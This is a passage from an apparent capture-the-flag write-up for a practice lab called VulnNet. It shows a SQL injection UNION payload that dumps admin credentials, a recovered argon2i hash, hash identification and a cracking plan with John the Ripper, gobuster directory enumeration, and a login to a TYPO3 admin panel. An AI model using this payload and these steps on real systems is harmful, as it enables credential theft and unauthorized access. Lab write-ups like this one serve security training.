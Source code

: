 ### Dumpdata

{% code overflow="wrap" lineNumbers="true" %}
```bash
# for be_users Table
-554 UNION SELECT NULL,NULL,concat(username,password) FROM vn_admin.be_users -- -

chris_w : $argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg
```
{% endcode %}

Cracking hash with john

```bash
dking@dking ~/Downloads$ haiti '$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg'                                                                
argon2i [JtR: argon2]

dking@dking ~/Downloads$ cat passwd                                                                             
chris_w:$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg

# use the passwords from the "blog" table as wordlist for john.

```

While John was cracking, i checked the other subdomains:

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://admin1.vulnnet.thm/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --no-error | grep -v 400

/en 
/vendor 
/fileadmin 
/typo3
```
{% endcode %}

Typo 3 is a CMS, we login with the credentials.

<figure><img src=".gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>

